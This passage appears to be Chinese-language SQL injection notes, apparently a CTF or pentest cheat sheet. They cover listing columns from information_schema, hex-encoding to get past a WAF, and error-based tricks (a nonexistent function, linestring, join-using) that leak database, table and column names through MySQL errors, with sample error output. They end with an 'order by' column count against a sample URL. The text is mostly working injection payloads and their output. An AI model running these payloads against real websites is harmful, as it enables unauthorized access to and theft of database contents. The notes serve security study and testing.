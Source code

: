 ```sql
select column_name from information_schema.columns where table_schema='database_name' and table_name='users';
select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag';

# 上面可能会被waf识别，也可以这样
select group_concat(column_name) from information_schema.columns where table_name='users';

# 字符串可以转换成16进制
select concat(group_concat(distinct+column_name)) from information_schema.columns where table_name=0x696e666f;
```

## 报错注入的一些技巧

### 用不存在的函数，爆出数据库名

如果过滤了 information_schema，也就无从获取表名和字段信息了，但是如果开启了报错，根据 MySQL 的特性，用一个不存在的自定义函数，就可以爆出数据库名。

```sql
SELECT * from users t where t.username=a()
// 报错信息，数据库名是 test_db
[Err] 1305 - FUNCTION test_db.a does not exist
```

### 利用 linestring 函数，爆出当前表名

```
SELECT * from users where id=1 and linestring(id)
// 报错信息，当前表名是 users
[Err] 1367 - Illegal non geometric '`test_db`.`users`.`id`' value found during parsing
```

### 使用 using+join 获取字段名

```
SELECT * from users where id=1 union select * from (select * from users as A join users as B using(id)) as C
// 报错信息，爆出列名 username
[Err] 1060 - Duplicate column name 'username'
using中增加新的列名，可以继续爆出其它列名，直到没有报错信息
SELECT * from users where id=1 union select * from (select * from users as A join users as B using(id,username)) as C
// 报错信息，又爆出一个列名
[Err] 1060 - Duplicate column name 'password'
```

## 判断字段的数量

```
# 原始的
http://192.168.137.140/cms/show.php?id=35
# 后面加上 order by 数字，就会按照第几个字段进行排序，如果没有会报错
http://192.168.137.140/cms/show.php?id=35 order by 16
```
